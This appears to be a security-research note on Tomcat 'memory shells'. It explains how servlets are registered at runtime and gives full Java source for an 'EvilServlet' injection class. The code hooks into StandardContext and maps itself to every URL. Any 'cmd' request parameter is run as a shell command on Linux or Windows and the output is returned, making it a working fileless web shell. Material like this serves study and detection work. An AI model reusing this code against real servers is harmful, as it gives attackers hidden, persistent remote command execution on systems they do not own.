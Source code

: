 # Servlet memshell

## Analysis

The process of the `Tomcat` matching a specific `Servlet` according to the request URL:

- Traverse a `children` and get the corresponding `child` according to the `ServletMapping` object, an URL mapping.

- The `child` is actually a `Wrapper` class, and the `Wrapper` object encapsulates the `Servlet`.

To add a `Servlet` dynamically, we should:

- Create a `Wrapper` object to encapsulate the `Servlet`.

- Call the `addchild()` method of the `StandardContext` class to add the `Wrapper` object to the `children`.

- Call the `addServletMappingDecoded()` method of the `StandardContext` class to establish the URL mapping.

In addition, we must achieve the `service()` method and write malicious code in this method.

## Code

```java
public class EvilServlet extends AbstractTranslet implements Servlet {
    static {
        final String name = "Ya0h4cker";
        WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        try {
            Field field = webappClassLoaderBase.getClass().getSuperclass().getDeclaredField("resources");
            field.setAccessible(true);
            WebResourceRoot resources = (WebResourceRoot) field.get(webappClassLoaderBase);
            StandardContext standardContext = (StandardContext) resources.getContext();

            if (standardContext.findChild(name) == null) {
                Servlet servlet = new EvilServlet();

                Wrapper wrapper = standardContext.createWrapper();
                wrapper.setName(name);
                wrapper.setServlet(servlet);
                wrapper.setServletClass(servlet.getClass().getName());

                standardContext.addChild(wrapper);
                standardContext.addServletMappingDecoded("/*", name);
                System.out.println("Inject success");
            }
        } catch (NoSuchFieldException | IllegalAccessException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    @Override
    public void init(ServletConfig servletConfig) throws ServletException {
    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        System.out.println("Evil service");
        if (servletRequest.getParameter("cmd") != null) {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
    }

    @Override
    public String getServletInfo() {
        return null;
    }

    @Override
    public void destroy() {
    }
}
```
